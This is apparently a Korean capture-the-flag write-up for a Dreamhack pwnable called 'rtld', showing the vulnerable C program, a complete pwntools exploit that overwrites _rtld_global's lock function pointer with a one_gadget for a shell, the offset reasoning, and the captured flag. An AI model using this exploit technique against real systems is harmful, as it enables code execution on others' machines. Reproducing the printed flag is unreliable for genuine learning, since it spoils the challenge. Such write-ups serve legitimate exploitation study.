



# B1 · rtld

### 1. 문제 확인

`pwnable` 분류의 B1 문제. glibc 2.23 환경이고, 임의 주소에 임의 값을 쓰는 기능이 **단 한 번** 주어진다.

<p align="center">
  
</p>

```c
int main() {
    long addr, value;
    initialize();
    printf("stdout: %p\n", stdout);   // libc 주소 누출
    printf("addr: ");  scanf("%ld", &addr);
    printf("value: "); scanf("%ld", &value);
    *(long *)addr = value;            // 임의 쓰기 (딱 1번)
    return 0;                         // 종료 -> _dl_fini
}
```

### 2. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote('host3.dreamhack.games', 15154)
libc = ELF('./libc-2.23.so')
ld   = ELF('./ld-2.23.so')

p.recvuntil(b': ')
stdout = int(p.recvuntil(b'\n'), 16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
ld_base   = libc_base + 0x3ca000

rtld_global            = ld_base + ld.symbols['_rtld_global']
dl_rtld_lock_recursive = rtld_global + 3848
onegadget              = libc_base + 0xf1247

p.sendlineafter(b'addr: ',  str(dl_rtld_lock_recursive).encode())
p.sendlineafter(b'value: ', str(onegadget).encode())

p.interactive()
```

> **오프셋 구하는 법(libc↔ld 간격 `0x3ca000`, `_rtld_global` 멤버 오프셋 `3848`, 누출 처리)은 [B1 Overwrite _rtld_global](B1%20Overwrite%20_rtld_global.md) 글을 참고.** 여기서는 반복하지 않는다.

### 3. 왜 원가젯을 쓰는가

앞선 `Overwrite _rtld_global`은 `system("/bin/sh")`를 쓰려고 `_dl_load_lock`에 `/bin/sh`를 심고 함수 포인터를 `system`으로 덮는 **쓰기 2번**을 했다. 이 문제는 임의 쓰기가 **1번뿐**이라 그게 불가능하다. `/bin/sh`를 심을 2번째 쓰기가 없기 때문이다.

그래서 인자가 필요 없는 **libc one_gadget**으로 함수 포인터를 덮어 **쓰기 1번**으로 끝낸다. one_gadget은 libc 내부의 `/bin/sh` 문자열을 써서 `execve("/bin/sh", ...)`를 직접 실행하므로 인자를 따로 준비할 필요가 없다.

단, one_gadget은 호출 지점의 스택 조건을 만족해야 터진다. 이 `_dl_fini` 호출 지점에서는:

| one_gadget | 조건 | 결과 |
|---|---|---|
| `0x4527a` | `[rsp+0x30] == NULL` | 이 지점에선 NULL이 아님 → 실패 |
| `0xf1247` | `[rsp+0x70] == NULL` | 이 지점에선 NULL → **성공** |

그래서 `0xf1247`을 쓴다.

### 4. 실행 흐름

```text
*(addr) = value  ->  return 0  ->  _dl_fini()  ->  _dl_rtld_lock_recursive(&_dl_load_lock)
```

1. `stdout` 누출로 `libc_base`, `ld_base`(= libc_base + 0x3ca000)를 구한다.
2. 임의 쓰기 1번으로 `_rtld_global._dl_rtld_lock_recursive`(함수 포인터, `+3848`)를 one_gadget `0xf1247`로 덮는다.
3. `return 0` → 종료 과정에서 `_dl_fini`가 그 함수 포인터를 호출 → one_gadget 실행 → `execve("/bin/sh")` → 셸.

### 5. 실행 결과

<p align="center">
  
</p>

```text
DH{e8992639751efccc8aed4a007c3b50542f352cb7b564418c1db1edbc5a87c4f0}
```
